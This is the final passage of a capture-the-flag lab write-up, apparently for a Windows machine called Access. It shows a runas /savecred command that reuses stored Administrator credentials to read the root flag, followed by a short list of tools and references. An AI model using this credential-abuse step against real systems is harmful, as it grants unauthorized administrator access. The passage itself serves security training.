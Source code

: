 We can use a similar command to get the root flag:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c \"type C:\Users\Administrator\Desktop\root.txt\" > C:\users\security\a.txt"
```
![root flag](screenshots/14_root_flag.png)

## Tools and References
### Tools
  * [mdb-tools](https://github.com/brianb/mdbtools)
  * [readpst](https://linux.die.net/man/1/readpst)
  
### References
[1]: https://ss64.com/nt/runas.html "Runas - Run under a different user account - Windows CMD - SS64.com"

  * [<sup>1</sup> runas syntax](https://ss64.com/nt/runas.html)
